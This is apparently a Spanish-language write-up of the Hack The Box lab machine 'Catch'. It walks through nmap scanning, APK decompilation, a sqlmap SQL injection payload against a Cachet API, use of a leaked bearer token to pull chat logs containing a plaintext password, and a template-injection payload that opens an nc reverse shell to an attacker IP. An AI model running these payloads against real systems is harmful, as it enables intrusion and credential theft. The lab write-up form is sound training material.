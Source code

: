 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Catch              |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 30                 |
| IP                     | 10.10.11.150       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Catch/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.150
```

![Nmap 1](/assets/images/Catch/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![Nmap 2](/assets/images/Catch/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos.

![Nmap 3](/assets/images/Catch/nmap3.png)

Despues veremos mas sobre los servicios que corren en el puerto 80, 3000, 5000 y 8000 con whatweb.

![whatweb](/assets/images/Catch/whatweb.png)


![Landing page](/assets/images/Catch/landing_page.png)


Despues de que seguimos navegando por el servicio web, nos encontramos con un .apk, el cual lo descompilaremos con <a href="https://github.com/pxb1988/dex2jar.git">d2j-dex2jar.sh</a>. Una vez clonado y correr ./gradlew distZip , navegaremos a dex2jar/dex-tools/build/distributions/dex-tools-2.2-SNAPSHOT. El comando para ejecutar la aplicacion es:

```s
sh d2j-dex2jar.sh -f /home/rebick/Documents/HtB/Catch/name.apk
```

Buscando en el codigo fuente, encontramos un link dirigido a `https://status.catch.htb`, asi que agregaremos este dominio a nuestro `/etc/hosts`

![Function that call subdomain.](/assets/images/Catch/pointing_subdomain.png)

Ahora analizaremos el dominio con <a href="https://github.com/MobSF/Mobile-Security-Framework-MobSF">MobSF.</a>Con esta herramienta encontraremos tokens de mucha importancia y podremos explotarlos despues. Por ahora, solo nos enfocaremos en `https://status.catch.htb`. Primero hay que iniciar el servicio y visitarlo en el navegador.

```s
#Para iniciar la herramienta
sh ./run.sh
```

Una vez ejecutada la herramienta, abrimos el navegador y ponemos `http://localhost:8000/`, el dashboard nos pedira soltar el .apk ahi mismo e iniciara el analisis. Despues de que concluya, nos vamos a la parte de Analysis

![Secrets](/assets/images/Catch/secrets.png)

En este dominio se encontro que es usado el frame Cachet, la otra evidencia indica que hay vulnerabilidades de SQLI, y vulnerabilidades de ejecusion de comandos.
Usaremos sqlmap para detectar estas vulnerabilidades.

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![SQL Payload](/assets/images/Catch/SQLpayload.png)

Vamos por la webshell

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

Primero Obtenemos el json de Rooms.

```json
[{"id":"61b86b28d984e2451036eb17",
"slug":"status",
"name":"Status",
"description":"Cachet Updates and Maintenance",
"lastActive":"2021-12-14T10:34:20.749Z",
"created":"2021-12-14T10:00:08.384Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b8708efe190b466d476bfb",
"slug":"android_dev",
"name":"Android Development",
"description":"Android App Updates, Issues & More",
"lastActive":"2021-12-14T10:24:21.145Z",
"created":"2021-12-14T10:23:10.474Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b86b3fd984e2451036eb18",
"slug":"employees",
"name":"Employees",
"description":"New Joinees, Org updates",
"lastActive":"2021-12-14T10:18:04.710Z",
"created":"2021-12-14T10:00:31.043Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]}]
```

Y ahora descargamos

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

En este response, obtuvimos la contrasena de john.

```json
[{"id":"61b8732cfe190b466d476c02",
"text":"ah sure!",
"posted":"2021-12-14T10:34:20.749Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8731ffe190b466d476c01",
"text":"You should actually include this task to your list as well as a part of quarterly audit","posted":"2021-12-14T10:34:07.449Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b872b9fe190b466d476c00",
"text":"Also make sure we've our systems, applications and databases up-to-date.","posted":"2021-12-14T10:32:25.514Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87282fe190b466d476bff",
"text":"Excellent! ",
"posted":"2021-12-14T10:31:30.403Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87277fe190b466d476bfe",
"text":"Why not. We've this in our todo list for next quarter",
"posted":"2021-12-14T10:31:19.094Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87241fe190b466d476bfd",
"text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
"posted":"2021-12-14T10:30:25.108Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8702dfe190b466d476bfa",
"text":"Here are the credentials `john :  E}V!mywu_69T4C}W`",
"posted":"2021-12-14T10:21:33.859Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87010fe190b466d476bf9",
"text":"Sure one sec.",
"posted":"2021-12-14T10:21:04.635Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86fb1fe190b466d476bf8",
"text":"Can you create an account for me ? ",
"posted":"2021-12-14T10:19:29.677Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86f4dfe190b466d476bf6",
"text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
"posted":"2021-12-14T10:17:49.761Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"}] 
```

Encontramos la cuenta y contrasena `john : E}V!mywu_69T4C}W`. El apiKey de john fue encontrada por medio de SQLInjection.
Lo siguiente por hacer es 

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump
```

Ahora podemos usar burpsuite para insertar el response de la siguiente forma:


![Burpsuite](/assets/images/Catch/burpsuite_john_response.png)

![SSLI](/assets/images/Catch/ssli.png)

En el SSLI pondremos 

```s
{% raw %}
{{%["rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8081 >/tmp/f"] | filter("system") | join(",")%}} 
```
para establecer una reverse shell y ponernos en escucha por el puerto 443